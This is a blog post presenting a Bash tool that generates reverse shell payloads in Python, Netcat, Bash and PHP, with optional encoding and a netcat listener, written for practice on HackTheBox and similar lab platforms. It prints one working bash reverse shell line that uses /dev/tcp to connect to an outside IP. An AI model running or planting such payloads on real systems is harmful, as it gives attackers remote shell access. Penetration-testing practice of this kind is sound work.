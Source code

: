 ```yaml
---
title: Tools - Reverse Shell Generator Bash Script.
tags: [reverse shell, netcat]
categories: [Tools, Bash]
comments: true
date: 2021-12-11 11:33:00
---
```


Hello,

After spending a lot of time doing [HackTheBox](https://app.hackthebox.eu/home), [Vulnhub](https://www.vulnhub.com/) and [OffSec PG](https://portal.offensive-security.com/), I found that it's so annoying to keep losing the reverse shell and I have to visit [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) or [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) Reverse Shell Cheatsheet over and over again, so I made this script [Reverse Shell Generator](https://github.com/bing0o/Reverse_Shell_Generator) to make it easy and fast for getting Reverse shell payloads (Python, Netcat, BASH, PHP) with encoding (urlencode, base64) and Starting local Netcat listener without being worried about which port to use.

### Usage:
```bash
./payload.sh -h
```

This will display the help and the options that you can use:

```
#OPTIONS:
        -t, --type           - Payload Type [python, netcat, bash, php].
        -i, --ip             - Local IP.
        -p, --port           - Local Port.
        -r, --run            - Run Netcat Listener.
        -e, --encode         - Encode The Payload [base64, url].
        -I, --interface      - Get The IP From Specific Interface (Default: tun0).
        -h, --help           - Prints The Help and Exit.
```

![help](../../assets/img/sample/tools-reverse-shell-generator/help.png)

- Basic Usage:

if you just run the tool without options it will gives you a `bash` reverse shell with the ip of `tun0` Network Interface and a random port number:

```bash
$ payload
bash -i >& /dev/tcp/192.168.49.111/33381 0>&1
```

- Getting Netcat Payload with base64 encoding, the IP form `eth0` Interface and starting local netcat listener:
![netcat](../../assets/img/sample/tools-reverse-shell-generator/netcat-base64.png)

- You can specify the `IP` and `PORT` manually:
![manual](../../assets/img/sample/tools-reverse-shell-generator/manual-ip-port.png)



The tool on github: [https://github.com/bing0o/Reverse_Shell_Generator](https://github.com/bing0o/Reverse_Shell_Generator)

 Happy Hacking!